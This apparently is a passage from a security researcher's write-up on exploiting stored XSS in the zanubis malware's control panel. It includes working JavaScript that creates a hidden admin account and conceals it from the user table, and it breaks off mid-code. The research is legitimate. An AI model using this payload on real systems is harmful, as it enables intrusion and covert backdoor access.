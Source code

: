 They execute the SQL statement to get all the bots (or only a subset of them) and for each row they set their corresponding variables ([5]) and use the exact (non sanitized, non encoded) values returned by the SQL statement ([6]).

This allows for a persistent XSS attack when we do know the encryption key. One method as mentioned would be to just try the default value `zanubis`, another method would be to crack the value as one endpoint (`/o1o/a11.php`) returns a known plaintext encrypted so we would be able to crack the key offline.

Ok, so assume we got the key and are able to exploit the first XSS. With the IMEI we are restricted to 300 chars in our payload (based on the database configuration). We just need to create a JS payload which we'll host on some server and use the XSS to include that script into the page. The JS payload then adds another user and deletes our bot info to clear the traces and not invoke/exploit the XSS anymore.


```js
function addUser(user, pw) {
        const Http = new XMLHttpRequest();
        const uri = 'application/set/addUsers.php';
        Http.open("POST", uri);
        Http.setRequestHeader("Content-type", "application/x-www-form-urlencoded")
        // inj js into the tag as it is persistent xss, to hide the new user
        var tag = '"><script>table = document.getElementById("bootstrap-table"); rowCount = table.rows.length; table.deleteRow(rowCount -1);</script>'; // [7]
        Http.send("login="+user+"&password="+pw+"&RIGHT=admin&tag="+tag+"&ADDUSER=ADD+USER");

        Http.onreadystatechange=function(){
                if (this.readyState == 4 && (this.status == 200 || this.status == 302)) {

                        enableName = getEnableName()
                        if (enableName != "ERROR") {
                                enableUser(enableName)
                        }
                }
        }

}

```
All this function does is create a new user through the corresponding HTTP request. The neat part is at [7], there we add some additional "info" to our user, which of course get's `echo`d to the page without being sanitized/encoded which brings us to the second XSS. The payload then removes the last element from the user table, hence not showing our new backdoor user we just created. This was the most fun part of the whole process.


That's it, below you can see the python exploit code and also the JS part. A final note, don't hate on the `#!/usr/bin/env python2`, the sploit is years old ;P


payload.js
```js
function sendEnableUser(enableName) {
        const Http = new XMLHttpRequest();
        const uri = '?cont=settings&page=users';
        Http.open("POST", uri);
        Http.setRequestHeader("Content-type", "application/x-www-form-urlencoded")
        Http.send(enableName+"=ENABLE")
}

function enableUser() {
        var enableName;

        const Http = new XMLHttpRequest();
        const uri = '?cont=settings&page=users';

        // find "enable\d\d"
```